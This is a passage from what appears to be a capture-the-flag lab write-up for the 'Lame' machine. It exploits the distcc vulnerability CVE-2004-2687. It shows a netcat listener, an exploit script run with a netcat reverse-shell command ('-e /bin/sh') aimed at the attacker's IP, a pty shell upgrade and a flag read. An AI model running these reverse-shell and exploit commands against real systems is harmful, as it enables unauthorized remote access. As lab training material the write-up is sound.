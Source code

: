 
<br />
Review the NIST entry that discusses this particular vulnerability.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/lame/nist.png" title="NIST" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://nvd.nist.gov/vuln/detail/cve-2004-2687">Vulnerability</a>

<br />
Start a listener listening on 1403.

{% raw %}
```sh
└──╼ [★]$ nc -nlvp 1403
listening on [any] 1403 ...
```
{% endraw %}

<br />
Run the payload.  Execute a reverse shell connecting to the attack machine on the port from the listener sending /bin/sh.

<ul>
<li>-t rhost</li>
<li>-p rport</li>
<li>-c command</li>
</ul>

{% raw %}
```sh
└──╼ [★]$ python ./exploit_upd.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.29 1403 -e /bin/sh"
[OK] Connected to remote service
[KO] Socket Timeout
```
{% endraw %}

<br />
Check the listener and catch the shell.  Upgrade the shell.

{% raw %}
```sh
└──╼ [★]$ nc -nlvp 1403
listening on [any] 1403 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.3] 49941
python -c 'import pty; pty.spawn("/bin/bash");'
daemon@lame:/tmp$
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
daemon@lame:/home/makis$ cat user.txt
cat user.txt
<redacted>
daemon@lame:/home/makis$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:a6:d6  
          inet addr:10.10.10.3  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:a6d6/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:a6d6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:138167 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1297 errors:0 dropped:0 overruns:0 carrier:0
```